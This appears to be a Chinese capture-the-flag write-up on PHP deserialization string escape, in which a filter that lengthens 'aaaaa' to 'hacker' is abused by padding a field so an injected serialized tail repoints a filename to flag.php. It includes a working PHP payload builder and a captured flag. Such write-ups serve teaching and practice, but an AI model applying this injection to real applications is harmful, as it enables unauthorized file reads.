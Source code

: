 aaaaa -> hacker 多一个字符

如果让`mod2 = aaaaa`

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:5:"aaaaa";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:5:"hacker";s:8:"filename";s:8:"flag.php";}
```

如果让`mod2 = aaaaaw`

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"aaaaaw";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"hackerw";s:8:"filename";s:8:"flag.php";}
```

逃出了一个字符w

如果把字符w换成双引号"

```
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"aaaaa"";s:8:"filename";s:8:"flag.php";}
O:4:"Read":3:{s:4:"mod1";s:10:"change me!";s:4:"mod2";s:6:"hacker"";s:8:"filename";s:8:"flag.php";}
```

逃出的双引号把原来的双引号闭合掉了

如果再逃出一个; 那么就能把mod2的内容闭合    想要逃两个字符，就要两个aaaaa

我们想逃：`";s:8:"filename";s:8:"flag.php";}` 33个字符

那么就要33个aaaaa

```php
<?php
class Read{
    
    public $mod1='change me!';
    public $mod2='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:8:"filename";s:8:"flag.php";}';
    public $filename = 'flag.php';
}
function replace($str){
    return preg_replace('/aaaaa/i','hacker',$str);
}

$read = new Read();
echo serialize($read);
echo '</br>';

$read2 = replace(serialize($read));
echo $read2;

?>
```

flag{abc88f5bg8sdv48fb6sdu8462s}
